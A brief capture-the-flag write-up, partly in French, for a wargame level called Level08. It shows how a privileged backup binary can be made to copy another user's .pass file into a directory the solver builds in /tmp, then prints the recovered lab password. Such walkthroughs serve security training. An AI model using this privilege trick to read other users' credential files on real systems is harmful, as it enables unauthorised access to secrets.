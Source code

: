 # Level08

```shell
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)

$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

On va aller dans `/tmp/` pour avoir un endroit ou l'on peut le creer

```shell
$ cd /tmp/

/tmp:$ mkdir -p backups/home/users/level09

/tmp:$ ~/level08 /home/users/level09/.pass

/tmp:$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

